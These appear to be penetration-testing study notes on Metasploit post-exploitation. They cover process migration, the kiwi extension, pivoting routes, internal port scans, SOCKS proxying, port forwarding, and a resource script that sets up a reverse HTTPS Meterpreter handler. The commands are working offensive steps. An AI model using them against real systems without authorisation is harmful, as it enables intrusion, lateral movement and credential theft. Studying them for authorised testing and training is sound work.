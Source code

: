 
### Post Explotation
Gather information about the current users last active time `idletime`
Start an hidden process notepad `execute -H -f notepad` -> migrate to PID
Migrate to an more privileged service `migrate <PID>` (`ps`)

### Extensions
After initial exploitation Metasploit modules can be loaded in by using `load <extension>` for example `load kiwi` 

### Pivoting
Adding routes to known sessions. For example, compromised host has another adapter with an private network. We can add this network through:
```
Ethernet adapter Ethernet1:

   Connection-specific DNS Suffix  . : 
   Link-local IPv6 Address . . . . . : fe80::b540:a783:94ff:89dc%14
   IPv4 Address. . . . . . . . . . . : 172.16.5.199
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
```

Background the session and add the route:
```
bg
*Backgrounding session <1>*

route add 172.16.5.0/24 1
route print

OR 

bg
use multi/manage/autoroute
set sessions <sessiondi>
run

```

Now we can use auxiliary modules again against this new private network:
```
use auxiliary/scanner/portscan/tcp
set RHOSTS 172.16.5.200
set PORTS 445,3389
run

```

It's important to note that the added route will only work with established connections. Because of this, the new shell on the target must be a bind shell such as _windows/x64/meterpreter/bind_tcp_, thus allowing us to use the set route to connect to it. A reverse shell payload would not be able to find its way back to our attacking system in most situations because the target does not have a route defined for our network.


#### Proxies
To make it possible to run applications outside of the Metasploit Framework to run we can use the auxiliary/server/socks_proxy module
```
use auxiliary/server/socks_proxy
set SRVHOST 127.0.0.1
set VERSION 5 
run -j 

vi /etc/proxychains4.conf
socks5 127.0.0.1 1080


### For example run RDP against comprimised machine through metasploit proxy
sudo proxychains xfreerdp /v:<private ip> /u:<username /dynamic-resolution /drive:/tmp

```


### Port forward
We can also use a similar technique for port forwarding using the _portfwd_ command from inside a Meterpreter session, which will forward a specific port to the internal network.

Add a listener on machine 192.168.XX to listen on port 3389 and forward traffic to port 3389 on host 172.16.5.200
meterpreter > `portfwd add -l 3389 -p 3389 -r 172.16.5.200`

#### Resource Scripts
Resource scripts can chain together a series of Metasploit console commands and Ruby code. Meaning, we can either use the built-in commands of Metasploit or write code in _Ruby_[1](https://portal.offsec.com/learning-modules/the-metasploit-framework-45720/automating-metasploit-45767/resource-scripts-45724#fn-local_id_147-1) (as it's the language Metasploit is developed in) to manage control flow as well as develop advanced logic components for resource scripts.

```
// EXAMPLE RESOURCE SCRIPT, start meterpreter and immediatly migrate to newly created proces:

use exploit/multi/handler
set PAYLOAD windows/meterpreter_reverse_https
set LHOST 192.168.119.4
set LPORT 443

set AutoRunScript /post/windows/manage/migrate
set ExitOnSession false

run -z -j

```
Start the resource script by: `sudo msfconsole -r listener.rc`

More resource scripts can be found at:
`ls -l /usr/share/metasploit-framework/scripts/resource`



#### Global options
Setting RHOSTS per module can be annoying. To make settings such as RHOSTS and LPORT across all modules we use the global options such as 
`setg` | `unsetg` -> `setg RHOSTS <ip>`

